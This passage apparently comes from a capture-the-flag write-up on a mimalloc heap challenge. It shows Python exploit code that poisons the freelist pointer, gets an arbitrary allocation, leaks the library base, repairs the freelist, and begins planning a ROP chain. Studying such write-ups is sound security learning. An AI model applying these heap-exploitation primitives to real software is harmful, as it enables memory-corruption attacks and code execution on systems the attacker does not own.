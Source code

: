 Now that all previously freed chunks have been migrated to the free list, we can begin manipulating the heap. Looking at the notes array:

![img](/images/notes.png)

We have three pointers that correspond to our allocated chunks. Let's use the chunk at index 0 to corrupt the freelist pointer.
```py
create(1)
edit(0, p64(0xdeadbeef))
```
After this, we can confirm that the freelist is indeed corrupted:

![img](/images/corruptedlist.png)

If we now attempt to allocate twice, the allocator will eventually follow our corrupted pointer and crash inside `mi_malloc`, as it attempts to access an invalid address:

![img](/images/crashmalloc.png)

With this primitive, we now have arbitrary control over the freelist pointer — allowing us to allocate memory at any address. This lets us place a chunk at the top of the mimalloc page, where important internal pointers (including ones into the libmimalloc library) are stored.

```py
create(1)
edit(0, p64(heap_base+0x190))
create(0)
create(1)
show(1)
libc_leak = u64d(rl()[48:48+8])
libc.address = libc_leak - 0x2b100
log.success("Libc leak: %#x", libc_leak)
log.success("Libc base: %#x", libc.address)
```
We successfully leaked the libmimalloc address and subtracted the appropriate offset to recover its base address.

However, there's now a problem: the freelist is corrupted, so further allocations will crash. Fortunately, we allocated a chunk at index 1 at address `heap_base + 0x190`, which points directly to the `free` member of the `mi_page_t` struct. This gives us a reliable write primitive to repair the freelist when needed.

```py
edit(1, p64(heap_base+0x10a80)) # Fix freelist
```

This allows us to continue performing arbitrary chunk allocations as before. After each corruption, we can simply use index 1 again to fix the freelist and maintain heap stability.

Even though libmimalloc is compiled with full protections (e.g., full RELRO, NX, PIE), it still contains a rich set of ROP gadgets. My plan was to construct a ROP chain. To locate the stack, I leaked the address of environ.

We can observe that environ is stored near Thread-Local Storage (TLS):
